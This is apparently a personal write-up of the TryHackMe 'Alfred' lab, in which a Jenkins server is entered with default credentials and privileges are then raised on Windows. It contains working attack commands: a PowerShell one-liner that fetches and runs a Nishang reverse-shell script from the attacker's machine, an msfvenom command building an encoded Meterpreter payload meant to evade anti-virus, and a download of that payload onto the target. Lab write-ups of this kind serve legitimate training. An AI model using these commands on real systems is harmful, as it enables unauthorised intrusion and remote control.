 # Alfred (THM)

- https://tryhackme.com/room/alfred
- March 17, 2023
- easy

---

- Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.
- For this room, I followed the steps that was instructed

## Enumeration

### Nmap

```
PORT     STATE SERVICE        REASON  VERSION
80/tcp   open  http           syn-ack Microsoft IIS httpd 7.5
3389/tcp open  ms-wbt-server? syn-ack
8080/tcp open  http           syn-ack Jetty 9.4.z-SNAPSHOT
```

### HTTP/80

- Home Page

![](screenshots/2023-03-17-02-32-59.png)

- alfred@wayneenterprises.com
- directory brute forcing with ffuf -> nothing found

### HTTP/8080

- directory brute forcing with ffuf -> nothing found
- login page

![](screenshots/2023-03-17-02-33-42.png)

- if login page is found, try with something like this

```
admin:admin
admin:password
guest:guest
guest:password
user:user
user:password
```
- one of them is correct and redirect to dashboard

![](screenshots/2023-03-17-02-46-21.png)

- Found a way to run a shell command in jenkins

![](screenshots/2023-03-17-03-02-57.png)

![](screenshots/2023-03-17-03-03-21.png)

![](screenshots/2023-03-17-03-04-02.png)

- First we need to create a server to share `Invoke-PowerShellTcp.ps1` file to remote machine
- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
- Then listen with nc at local machine
- Add payload that the remote machine will fetch ps1 file from local machine and execute and will connect to local machine 

- create local server

![](screenshots/2023-03-17-03-07-30.png)

- listen with nc at port 4242
- write payload at `http://10.10.144.110:8080/job/project/configure`

```sh
powershell iex (New-Object Net.WebClient).DownloadString('http://$YOUR_TUN_IP:8888/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $YOUR_TUN_IP -Port 4242
```

## User Access

- Click the Apply button
- Build Now and get the shell

![](screenshots/2023-03-17-03-14-53.png)

- get `alfred\bruce` access

### switch to meterpreter shell

- first create windows meterpreter reverse shell 
- payload is encoded to transmit correctly and to evade anti-virus
- make sure this shell.exe file is under python sharing folder in local machine 

```sh
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=$YOUR_TUN_IP LPORT=4243 -f exe -o shell.exe
```
- in remote shell that we got previously, get the shell.exe file 

```sh
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.8.57:8888/shell.exe', 'shell.exe')"
```
![](screenshots/2023-03-17-03-29-51.png)

![](screenshots/2023-03-17-03-34-29.png)

![](screenshots/2023-03-17-03-36-10.png)

- from meterpreter shell -> run `shell` 

![](screenshots/2023-03-17-03-39-51.png)


## System Access

![](screenshots/2023-03-17-03-42-29.png)

![](screenshots/2023-03-17-03-42-51.png)

![](screenshots/2023-03-17-03-44-38.png)

```sh
meterpreter > pwd
C:\Windows\system32
meterpreter > cat config/root.txt
```

---